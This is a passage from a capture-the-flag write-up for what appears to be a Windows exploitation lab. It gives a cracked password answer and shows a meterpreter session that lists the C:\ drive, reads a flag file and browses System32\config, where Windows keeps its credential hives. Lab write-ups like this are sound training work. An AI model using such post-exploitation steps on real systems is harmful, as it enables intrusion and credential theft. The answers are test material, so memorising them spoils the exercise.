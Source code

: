 2.Copy this password hash to a file and research how to crack it. What is the cracked password?
>>alqfna22

----

# Task 5 Find flags!
----

>>Find the three flags planted on this machine. These are not traditional flags, rather, they're meant to represent key locations within the Windows system. Use the hints provided below to complete this room!

```bash
meterpreter > cd /
meterpreter > ls
Listing: C:\
============

Mode              Size     Type  Last modified              Name
----              ----     ----  -------------              ----
40777/rwxrwxrwx   0        dir   2009-07-14 04:18:56 +0100  $Recycle.Bin
40777/rwxrwxrwx   0        dir   2009-07-14 06:08:56 +0100  Documents and Settings
40777/rwxrwxrwx   0        dir   2009-07-14 04:20:08 +0100  PerfLogs
40555/r-xr-xr-x   4096     dir   2009-07-14 04:20:08 +0100  Program Files
40555/r-xr-xr-x   4096     dir   2009-07-14 04:20:08 +0100  Program Files (x86)
40777/rwxrwxrwx   4096     dir   2009-07-14 04:20:08 +0100  ProgramData
40777/rwxrwxrwx   0        dir   2018-12-13 03:13:22 +0000  Recovery
40777/rwxrwxrwx   4096     dir   2018-12-12 23:01:17 +0000  System Volume Information
40555/r-xr-xr-x   4096     dir   2009-07-14 04:20:08 +0100  Users
40777/rwxrwxrwx   16384    dir   2009-07-14 04:20:08 +0100  Windows
100666/rw-rw-rw-  24       fil   2018-12-13 03:47:39 +0000  flag1.txt
0000/---------    4355808  fif   1970-02-24 19:33:04 +0100  hiberfil.sys
0000/---------    4355808  fif   1970-02-24 19:33:04 +0100  pagefile.sys

meterpreter > cat flag1.txt 
flag{access_the_machine}

meterpreter > cd /Windows
meterpreter > cd System32
meterpreter > cd config
meterpreter > ls
Listing: C:\Windows\System32\config
===================================

Mode              Size      Type  Last modified              Name
----              ----      ----  -------------              ----
100666/rw-rw-rw-  28672     fil   2009-07-14 06:32:39 +0100  BCD-Template
100666/rw-rw-rw-  25600     fil   2009-07-14 06:38:35 +0100  BCD-Template.LOG
100666/rw-rw-rw-  18087936  fil   2009-07-14 03:34:08 +0100  COMPONENTS
100666/rw-rw-rw-  1024      fil   2009-07-14 08:07:31 +0100  COMPONENTS.LOG
100666/rw-rw-rw-  13312     fil   2009-07-14 03:34:08 +0100  COMPONENTS.LOG1
100666/rw-rw-rw-  0         fil   2009-07-14 03:34:08 +0100  COMPONENTS.LOG2
100666/rw-rw-rw-  1048576   fil   2021-11-27 06:29:11 +0000  COMPONENTS{016888b8-6c6f-11de-8d1d-001e0bcde3ec}.TxR.0.regtrans-ms
100666/rw-rw-rw-  1048576   fil   2021-11-27 06:29:11 +0000  COMPONENTS{016888b8-6c6f-11de-8d1d-001e0bcde3ec}.TxR.1.regtrans-ms
100666/rw-rw-rw-  1048576   fil   2021-11-27 06:29:11 +0000  COMPONENTS{016888b8-6c6f-11de-8d1d-001e0bcde3ec}.TxR.2.regtrans-ms
100666/rw-rw-rw-  65536     fil   2021-11-27 06:29:11 +0000  COMPONENTS{016888b8-6c6f-11de-8d1d-001e0bcde3ec}.TxR.blf
100666/rw-rw-rw-  65536     fil   2009-07-14 05:54:56 +0100  COMPONENTS{016888b9-6c6f-11de-8d1d-001e0bcde3ec}.TM.blf
100666/rw-rw-rw-  524288    fil   2009-07-14 05:54:56 +0100  COMPONENTS{016888b9-6c6f-11de-8d1d-001e0bcde3ec}.TMContainer00000000000000000001.regtrans-ms
```